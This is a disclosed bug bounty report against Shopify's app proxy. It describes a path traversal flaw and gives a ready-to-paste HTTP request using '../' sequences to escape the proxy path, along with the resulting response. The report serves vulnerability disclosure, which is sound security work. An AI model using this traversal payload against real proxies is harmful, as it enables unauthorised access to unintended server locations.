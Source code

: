 # Path Traversal in App Proxy

## Report Details
- **Report ID**: 869888
- **URL**: https://hackerone.com/reports/869888
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-05-10T06:56:14.534Z
- **Disclosed**: 2020-08-24T22:27:51.998Z

## Reporter
- **Username**: ngalog
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Hi,

I found app proxy is vulnerable to path traversal, the attacker scenario is from anonymous user to oauth app owner.

## Description
In app proxy function, it is possible proxy request to shopify custom domain request to oauth app store defined host, and because shopify didn't escape the `../`, it allows anyone to escape the path and reach unintended location.

## Steps to reproduce
- Since setting up and explaining how to setup app proxy would be so trouble, I'll go straight to the point.
- The app proxy for my oauth app is set to  `https://████████/proxy`, path and subpath is `apps/ss`
- My store `█████` has installed it
- If you go https://███████/apps/ss/test, you should see `hi im ron`, which matches `https://██████████/proxy/test`
- In theory, you can't use this proxy to see what's hosting in `https://████████/` since I have added `/proxy` in the path
- However with this path traversal, it is possible now

Copy and paste this to the burp repeater and hit Send

```
GET /apps/ss/b.php/../../?shop=a&Shop=asd HTTP/1.1
Host: ███████
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1


```

response is 

```
	<head>
<meta name=dropbox-domain-verification content=4yyz8tdqnx1e />
</head>


<body>hi</body>


```

Which matches response at `https://█████/`

## Impact

Able to perform path traversal on oauth app as anonymous user

## Attachments
No attachments
